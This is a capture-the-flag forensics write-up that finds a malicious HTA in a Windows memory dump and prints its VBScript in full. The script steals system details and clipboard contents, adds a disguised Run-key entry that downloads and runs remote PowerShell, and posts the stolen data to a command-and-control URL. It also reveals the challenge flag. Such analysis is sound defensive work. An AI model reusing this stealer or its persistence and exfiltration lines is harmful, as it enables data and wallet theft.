




# Stealth Stealer
Challenge Author: `viipz`
Challenge Flag: `EPT{X0rd_crypt0_c01n_w4ll3t_h315t!}`
Challenge Description:
```
Use the same memory dump from Phantom Phish. 

The malware appears to be highly sophisticated. What could be its functionality?
```

## Provided Challenge files
Memory dump of system.
- [dump.zip](https://platform.ept.gg/api/challenge/phantomphish/file) *(link may become unavailable)*


## Solution
### Preface
We have gotten a memory dump of a Windows system. The system has been compromised. The memory image is reused across different CTF challenges.

Our task is to figure out what a highly sophisticated malware could be.

### Solving the challenge
#### Choosing our tooling
> This is the same as for Phantom Phish writeup: [My Phantom Phish writeup](../../Phantom%20Phish/NorskeNøkkelsnikere-SimenBai/README.md)

Since we are investigating a memory image, we generally have two options. We can either use MemProcFS or Volatiltiy. We orginally solved it using Volatility, but this writeup will cover the MemProcFS option.

MemProcFS is cross-platform however it has a little better functionallity in Windows. So I will use windows for this writeup.

#### Running MemProcFs
> This is the same as for Phantom Phish writeup: [My Phantom Phish writeup](../../Phantom%20Phish/NorskeNøkkelsnikere-SimenBai/README.md)

MemProcFS works a little differently then Volatility. In volatility, you have to run plugins against the memory dump and it has to orient itself in the memory image each time. However, in MemProcFS, when you run it against a memory image it mounts a new drive letter, containing a virtual file system of the memory dump containg all the information. This way we can get access to everything instead of having to wait around and run all the different plugins.

It is also possible to execute YARA searches against the memory, so I did this too just in case it would find something interesting.

I started MemProcFs with the following command, making it run a forensic and yara scan (utilizing some Elastic Yara rules) against the memory image.
```
MemProcFS.exe -forensic 1 -device dump.dmp -license-accept-elastic-license-2.0
```
It takes a little while for it to fully load. But the `M:/forensic/progress_percent.txt` file tells us the progress.



#### Finding the relevant processes
> This is mostly the same as in Phantom Phish writeup: [My Phantom Phish writeup](../../Phantom%20Phish/NorskeNøkkelsnikere-SimenBai/README.md). However, the focus is now on the third process instead of the second. If you read the other writeup, this section can safely be skipped.

Usually the first thing we do when investigating a new memory dump is to look identify suspicious/intersting processes. The information we usually look for is weird `executable names`, `file paths`, `parent processes`, `command line parameters` and `start time information`.


A good starting place for that is to look at the `M:\forensic\csv\process.csv` file. It contains a lot of the information we are interested in. A good tool for looking at CSVs in forensics is utilizing the tool `Timeline Explorer` by Eric Zimmerman.

One of the first steps we can take, is to take a look at the exited processes to see if there is something interesting in them, or if we can just filter them away.


Nothing immediatly jumps out at us as being suspicious except the start time of the `svchost.exe` (pid 9440)which usually starts a few seconds after `System.exe` but this could still be legitimate. So we go back to the process list, now filtering away the exited processes.

There is a lot of `svchost.exe` processes, they might be interesting to look at but they also create a lot of noise. We know they are started with the `-k` and `-p` argument, so we will temporarily filter away those that start with `C:\Windows\System32\svchost.exe -k ` in their command line.

We now have a much shorter list, with 92 entries instead of 190. We can now quickly look through the list and see if we find anything suspicious.


When we sort it based on create time we can get an idea of what happened in what order. When looking at the most recent activity we find three interesting things.
1. We find the time that the `dumpit.exe` tool was executed. DumpIt.exe is a popular forensically sound memory dumping tool from Magnet. So we can assume this is legitimate and what has been used by the defenders to dump the memory. It seems to have been dumped at approximatly `2024-10-17 13:09:05`.

2. We see that notepad is being used to open a PDF file. This is very weird, and probably something that might be interesting to us. We want to take a look at that file. 
Information that is relevant: PID `7300`, PPID `1304` (Processe does no longer exist), File opened `C:\Users\Benjamin\Documents\security email.pdf`

3. We see that mshta.exe (A process used to exute html applications (.hta)) is being run towards an external resource. This is a common Living of the land attack pattern, https://lolbas-project.github.io/lolbas/Binaries/Mshta/. Information that is relevant is PID `5696`, PPID `10348` (`powershell.exe`, run under `explorer.exe`), Accessed external resource: `http://192.168.88.130/heist.hta`. It would be very interesting to look at the heist.hta file. (This will be covered in the Stealth Stealer writeup).

#### Exploring a rabbit hole
It is worth mentioning that although it might seem like we have controll, we sometimes dig ourself into rabbit holes. I can safely say I did it in this case.

I originally did not notice the `HTA` execution, and therefore, based on the challenge description:
`"The malware appears to be highly sophisticated."` I therefore assumed it was some kind of rootkit or something like that, so I spend quite a bit of time in that rabbit hole before I finally noticied the suspicious `HTA` execution.

#### Finding the HTML Application file
When I finally noticed the HTA application execution the alarm bells started ringing, and I essentially knew that I had found the malicious behaviour in question. Now I just needed to know what it had executed.

Luckily, this information should be readily accessible in the memory of the process (`5696`), I therefore opened the respective process in MemProcFS, found the file handles it had opened (`M:\pid\5696\files\handles`) and looked for my file and there we found it:



The file contained the following script:

```vb
<script language="VBScript">
Dim a1, a2, a3, a4, a5, a6, d2
Set a1 = CreateObject("WScript.Shell")
a2 = a1.RegRead(utr("484b4c4d5c534f4654574152455c4d6963726f736f66745c57696e646f7773204e545c43757272656e7456657273696f6e5c50726f647563744e616d65"))
a3 = a1.ExpandEnvironmentStrings(utr("25434f4d50555445524e414d4525"))
a4 = a1.ExpandEnvironmentStrings(utr("25555345524e414d4525"))
a5 = a1.ExpandEnvironmentStrings(utr("2550524f434553534f525f41524348495445435455524525"))
a6 = dsf()
Dim b1, b2, b3
b1 = utr("535556594943684f5a58637454324a715a574e304945356c644335585a574a4462476c6c626e51704c6b5276643235736232466b553352796157356e4b434a6f64485277637a6f764c32686c62476c3463475633644756796332566a636d5630597a49755a5842304c32746c5a58424259324e6c63334e4a5a6b4e76626d356c593352706232354d62334e304c6e427a4d534970")

b1 = "IEX (New-Object Net.WebClient).DownloadString("https://helixpewtersecretc2.ept/keepAccessIfConnectionLost.ps1")"
b2 = HKCU\Software\Microsoft\Windows\CurrentVersion\Run\
b3 = "Microsoft Edge Integrity Checker"
a1.RegWrite b2 & b3, b1, "REG_SZ"
iolo()
Dim dtg
dtg = "5667474c4b0761534c54614e63432368700722594c40275b7f0467687b04220267166e"
d2 = hbr(dtg, &H1337)
dfg a2, a3, a4, a5, a6, d2
Function dsf()
	' "hopefully I find some wallet keys"
Dim clipboard, ert
Set clipboard = CreateObject("htmlfile")
ert = clipboard.ParentWindow.ClipboardData.GetData("text")
If Len(data) > 0 Then
dsf = data
Else
dsf = "No clipboard data found"
End If
End Function
Sub olo(min)
Dim ts
Dim tss
ts = Timer()
tss = 0
Do While tss < (min * 60)
tss = Timer() - ts
If tss < 0 Then tss = tss + 86400
CreateObject("WScript.Shell").AppActivate("shh")
Loop
End Sub
Sub iolo()
olo 5
End Sub
Sub dfg(os, computer, user, arch, clipboard, d2)
Dim xmlhttp, iop, data
data = "os=" & os & "&computer=" & computer & "&user=" & user & "&arch=" & arch & "&clipboard=" & clipboard & "&misc=" & d2
iop = "https://helixpewtersecretc2.ept/stealer.php"
Set xmlhttp = CreateObject("MSXML2.ServerXMLHTTP")
xmlhttp.open "POST", iop, False
xmlhttp.setRequestHeader "Content-Type", "application/x-www-form-iopencoded"
xmlhttp.send data
End Sub
Function hbr(juo, xorKey)
Dim i, yka, yty, keyByte
yka = ""
For i = 1 To Len(juo) Step 2
yty = CLng("&H" & Mid(juo, i, 2))
If (i Mod 4) = 1 Then
keyByte = (&H13)
Else
keyByte = (&H37)
End If
yty = yty Xor keyByte
yka = yka & Chr(yty)
Next
hbr = yka
End Function
Function utr(jui)
Dim i, fgg
fgg = ""
For i = 1 To Len(jui) Step 2
fgg = fgg & Chr(CLng("&H" & Mid(jui, i, 2)))
Next
utr = fgg
End Function
</script>
```

The script was clearly obfuscated, so it needed to be deobfuscated. We also knew that it was written in VBS.
However, we already saw the script had some interesting components.

#### Deobfuscating the VBA script
The script had a few different functions and subroutines that we can separate out.

- `dfs` function which gets data from the clipboard and then returns it.
- `olo` sub-routine runs for a specified duration in minutes and continually tries to bring a window titled "shh" to the foreground.
- `iolo` sub-routine that runs `olo 5`.
- `dfg` sub-routine that sends system information, including the operating system, computer name, username, architecture, clipboard contents, and additional data, to a remote server via an HTTP POST request (`hxxps[://]helixpewtersecretc2[.]ept/stealer[.]php`).
- `hbr` function takes a hexadecimal-encoded string, decodes it into bytes, applies an XOR operation with the key `0x1337`, and returns the resulting decoded string. 
- `utr` function takes a hexadecimal-encoded string and converts each byte to its ASCII equivalent

We now know what each sub function and sub-routine does, and we can now understand what the rest of the code does.

I have here resolved `hbr` and `utr` functions with cyberchef.
```vb
Dim a1, a2, a3, a4, a5, a6, d2
Set a1 = CreateObject("WScript.Shell")
a2 = a1.RegRead("HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProductName")
a3 = a1.ExpandEnvironmentStrings("%COMPUTERNAME%")
a4 = a1.ExpandEnvironmentStrings("%USERNAME%")
a5 = a1.ExpandEnvironmentStrings("%PROCESSOR_ARCHITECTURE%")
a6 = dsf()
Dim b1, b2, b3
b1 = "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwczovL2hlbGl4cGV3dGVyc2VjcmV0YzIuZXB0L2tlZXBBY2Nlc3NJZkNvbm5lY3Rpb25Mb3N0LnBzMSIp"

b1 = "IEX (New-Object Net.WebClient).DownloadString("https://helixpewtersecretc2.ept/keepAccessIfConnectionLost.ps1")"
b2 = HKCU\Software\Microsoft\Windows\CurrentVersion\Run\
b3 = "Microsoft Edge Integrity Checker"
a1.RegWrite b2 & b3, b1, "REG_SZ"
iolo()

Dim dtg
dtg = "5667474c4b0761534c54614e63432368700722594c40275b7f0467687b04220267166e"
d2 = "EPT{X0rd_crypt0_c01n_w4ll3t_h315t!}"
dfg a2, a3, a4, a5, a6, d2
```



After deobfuscating the script we can see an interesting IoC, that we would probably want to note down (if it was a legitimate FQDN). But we also see the flag: 
`EPT{X0rd_crypt0_c01n_w4ll3t_h315t!}`
